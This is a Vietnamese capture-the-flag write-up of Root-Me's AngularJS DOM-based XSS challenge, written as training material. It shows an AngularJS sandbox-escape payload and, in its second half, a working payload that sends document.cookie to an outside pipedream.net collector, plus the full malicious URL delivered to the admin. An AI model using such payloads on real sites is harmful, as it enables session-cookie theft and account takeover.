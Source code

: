 # [XSS DOM Based - Angular](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)

Thử submit giá vị vào input, ta xem được script mà website handle:

<img src="./media/image1.png" style="width:6.5in;height:3.46597in" alt="Graphical user interface, text, application Description automatically generated" />

Mất khá nhiều thời gian để tránh filter và hiểu code. Có vẻ không thể attack bằng cách “hiểu” code được. Đề bài có tên là **AngularJS,** tra cứu cheatsheet XSS Angular, ta có thể tìm được payload: **$on.constructor('alert(1)')()**

Để khiến JS thực thi command, ta chèn `{{ }}` để triển khai expression:

**{{$on.constructor('alert(1)')()}}**

Tuy vậy, lúc chèn payload, website trả về:

<img src="./media/image2.png" style="width:6.24127in;height:2.78056in" alt="A screenshot of a computer Description automatically generated" />

Thử thay **' "** thì đã chèn thành công script:

<img src="./media/image3.png" style="width:6.5in;height:1.06319in" alt="A screenshot of a computer Description automatically generated with medium confidence" />

Chỉnh sửa payload để thực thi DOM Based XSS attack. Ta sử dụng **\\"** để thoát chuỗi **"":**

Payload: **{{$on.constructor("document.location=\\"https://eol9dtzbk9673pb.m.pipedream.net?cookie=\\"+document.cookie")()}}**

<img src="./media/image4.png" style="width:5.60752in;height:2.77081in" alt="Graphical user interface, text, application, email Description automatically generated" />

Payload đã chạy được. Giờ thì gửi payload đến admin qua Contact tab:

[*http://challenge01.root-me.org/web-client/ch35/?name={{$on.constructor("document.location=\\"https://eol9dtzbk9673pb.m.pipedream.net?cookie=\\"%20document.cookie")()}}*](http://challenge01.root-me.org/web-client/ch35/?name=%7b%7b$on.constructor(%22document.location=\%22https://eol9dtzbk9673pb.m.pipedream.net?cookie=\%22%20document.cookie%22)()%7d%7d)

<img src="./media/image5.png" style="width:4.37015in;height:1.53329in" alt="Graphical user interface, text, application, website Description automatically generated" />

HTTP Request nhận về:

<img src="./media/image6.png" style="width:6.12427in;height:2.54327in" alt="Graphical user interface, text, application Description automatically generated" />

<img src="./media/image7.png" style="width:5.42995in;height:2.95398in" alt="A screenshot of a computer Description automatically generated" />

- Flag: "****************************"
